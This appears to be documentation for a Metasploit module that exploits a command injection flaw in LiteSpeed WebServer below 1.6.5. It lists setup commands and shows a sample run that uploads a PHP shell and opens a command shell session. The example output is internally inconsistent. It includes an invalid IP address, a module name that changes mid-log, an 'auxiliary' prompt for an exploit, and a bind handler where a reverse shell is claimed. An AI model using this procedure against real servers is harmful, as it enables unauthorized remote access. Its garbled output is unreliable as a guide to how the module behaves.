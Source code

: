 
## Vulnerable Application

This module allows an attacker with a privileged admin account to launch a reverse shell due to a command injection vulnerability in Litespeed WebServer < 1.6.5

This module has been tested successfully on:

* Ubuntu 18.04.4.
* Kali Linux.

## Verification Steps


Metasploit:

1. `./msfconsole`
1. `use exploit/litespeed_webserver_rce`
1. `set rhosts <rhost>`
1. `set rport <rport>`
1. `set username <username>`
1. `set password <password>`
1. `set ssl true`
1. `run`

## Scenarios

### litespeed_webserver_rce.rb on Ubuntu 18.04.4

```
msf6 > use exploit/litespeed_webserver_rce
msf6 auxiliary(exploit/litespeed_webserver_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf6 auxiliary(exploit/litespeed_webserver_rcee) > set username admin
USERNAME => admin
msf6 auxiliary(exploit/litespeed_webserver_rcee) > set password admin
PASSWORD => admin
msf6 auxiliary(exploit/litespeed_webserver_rcee) > set ssl true
ssl => true
msf6 auxiliary(exploit/litespeed_webserver_rce) > run

[+] Successfull get cookie: LSWSWEBUL=d97sm1djak12lzjmj23kamd23
[+] Successfull get tk parram: 0.564365723 1732567232
[+] Shell code upload to: /H23azkQyh.php
[+] Waiting for server restart in 5s
[+] Successfull to restart server
[+] Upload shell!
[+] Start shelling!
[+] Started bind TCP handler against 127.0.0.1:4444
[+] Command shell session 1 opened (127.0.0.1.2:40602 -> 127.0.0.1:4444) at 2021-09-30 20:05:04

